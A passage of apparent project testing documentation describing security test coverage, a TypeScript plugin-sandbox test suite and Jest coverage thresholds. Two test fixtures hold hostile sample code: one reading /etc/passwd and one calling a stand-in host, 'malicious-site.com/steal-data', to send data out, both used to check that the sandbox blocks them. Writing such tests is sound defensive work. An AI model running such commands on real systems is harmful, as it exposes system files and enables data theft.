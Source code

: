 ### Security Testing

**Security Test Coverage**:
- **Static Analysis**: ESLint security rules + npm audit
- **Dependency Scanning**: Snyk for vulnerable dependencies
- **Dynamic Testing**: OWASP ZAP for runtime vulnerabilities
- **Penetration Testing**: Manual security assessment

**Security Test Examples**:
```typescript
// tests/security/plugin-sandbox.test.ts
describe('Plugin Security Sandbox', () => {
  it('should prevent file system access outside allowed paths', async () => {
    const maliciousPlugin = createMaliciousPlugin({
      code: `
        const fs = require('fs');
        fs.readFileSync('/etc/passwd', 'utf8');
      `
    });

    const result = await executePluginInSandbox(maliciousPlugin);

    expect(result.success).toBe(false);
    expect(result.error).toContain('Permission denied');
  });

  it('should restrict network access to allowed domains', async () => {
    const networkPlugin = createNetworkPlugin({
      code: `
        fetch('http://malicious-site.com/steal-data');
      `
    });

    const result = await executePluginInSandbox(networkPlugin);

    expect(result.success).toBe(false);
    expect(result.error).toContain('Network access denied');
  });
});
```

### Test Coverage Requirements

**Coverage Targets**:
- **Unit Tests**: 90% line coverage, 85% branch coverage
- **Integration Tests**: 80% line coverage for API endpoints
- **E2E Tests**: 100% coverage of critical user paths
- **Security Tests**: 100% coverage of security-sensitive functions

**Coverage Configuration**:
```json
{
  "jest": {
    "collectCoverageFrom": [
      "src/**/*.{ts,tsx}",
      "!src/**/*.d.ts",
      "!src/**/*.stories.{ts,tsx}",
      "!src/**/__tests__/**"
    ],
    "coverageThreshold": {
      "global": {
        "branches": 85,
        "functions": 90,
        "lines": 90,
        "statements": 90
```